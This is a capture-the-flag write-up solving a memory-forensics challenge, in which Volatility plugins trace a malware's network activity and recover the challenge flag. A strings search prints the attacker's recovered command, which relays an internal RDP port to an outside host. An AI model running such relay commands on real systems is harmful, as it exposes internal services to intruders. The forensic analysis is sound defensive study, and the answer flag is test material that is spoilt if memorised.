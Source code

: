 ---
tags: []
---
# Command & Control - level 4

- **Description:** Berthier, thanks to this new information about the processes running on the workstation, it's clear that this malware is used to exfiltrate data. 
Find out the ip of the internal server targeted by the hackers!
The validation flag should have this format : IP:PORT
- **Difficulty:** Medium

---

## 🔎 Solution
To investigate the system's network activity, we began by using the `netscan` plugin, which enumerates active network connections. 
Interestingly, the results showed only internal port communications - no external IP connections were identified, suggesting possible use of covert channels or redirection.
```bash
> ./vol2/volatility2 -f ch2.dmp --profile=Win7SP0x86 netscan | grep "iexplore.exe"
Volatility Foundation Volatility Framework 2.6
0x1dedb4f8         TCPv4    127.0.0.1:49178                127.0.0.1:12080      ESTABLISHED      2772     iexplore.exe   
0x1fbca1a0         UDPv4    127.0.0.1:60151                *:*                                   3044     iexplore.exe   2013-01-12 16:57:47 UTC+0000
0x1fa21008         TCPv4    127.0.0.1:58785                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa3ea48         TCPv4    127.0.0.1:58808                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa41008         TCPv4    127.0.0.1:58797                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa468b0         TCPv4    127.0.0.1:58747                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa5f3d8         TCPv4    127.0.0.1:58823                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa78ac0         TCPv4    127.0.0.1:58806                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa80880         TCPv4    127.0.0.1:58781                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa83c98         TCPv4    127.0.0.1:58727                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa859c0         TCPv4    127.0.0.1:58740                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa9a678         TCPv4    127.0.0.1:58787                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faa97f8         TCPv4    127.0.0.1:58742                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fab2008         TCPv4    127.0.0.1:58791                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fad2988         TCPv4    127.0.0.1:58749                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fada310         TCPv4    127.0.0.1:58733                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fae1ba0         TCPv4    127.0.0.1:58815                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faeddf8         TCPv4    127.0.0.1:58811                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faf7c58         TCPv4    127.0.0.1:58783                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fafe208         TCPv4    127.0.0.1:58738                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fb80df8         TCPv4    127.0.0.1:58792                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fca0820         TCPv4    127.0.0.1:58729                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fd57da0         TCPv4    127.0.0.1:58795                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd92378         TCPv4    127.0.0.1:58817                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd9b580         TCPv4    127.0.0.1:58731                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd9f838         TCPv4    127.0.0.1:58758                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe  
```

We extended our analysis by leveraging the `consoles` plugin to review the system's console history. 
This revealed interactions involving the `conhost.exe` process. 
```bash
ConsoleProcess: conhost.exe Pid: 2168
Console: 0x1081c0 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe
AttachedProcess: cmd.exe Pid: 1616 Handle: 0x64
----
CommandHistory: 0x427a60 Application: tcprelay.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427890 Application: whoami.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427700 Application: cmd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x64
----
```

Specifically, we observed that `conhost.exe` had executed the following:
- `tcprelay.exe`: A known utility for redirecting and spoofing TCP connections, often leveraged in network-based attacks for port forwarding or establishing reverse shells.
- `whoami.exe`: Likely used to confirm the privileges of the current session.
- `cmd.exe`: Notably marked as **Allocated**, indicating it is still active in memory.

These findings suggest that an attacker may have used `cmd.exe` to execute `tcprelay.exe` for TCP port forwarding, followed by `whoami.exe` to verify shell activity and user privileges.  

Since `conhost.exe` handles console input/output, it likely processed these commands. 
To dig deeper, we performed a memory dump of the `conhost.exe` process using the `memdump` plugin, resulting in the file `2168.dmp`.
```bash
> ./vol2/volatility2 -f ch2.dmp --profile=Win7SP0x86 memdump -p 2168 --dump-dir=./root-me 
Volatility Foundation Volatility Framework 2.6
************************************************************************
Writing conhost.exe [  2168] to 2168.dmp
```

Finally, we analyzed the dump using `strings` and searched for occurrences of **tcprelay**. 
This yielded critical information, including the target IP address and port used by the attacker.
```bash
> strings ./root-me/2168.dmp | grep "tcprelay.exe"     
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
```

## 🚩Flag
> `192.168.0.22:3389`


                                                                                                                                      
 
                                                                                                                                     


                                                                                                                                     

                                                                                                                                     

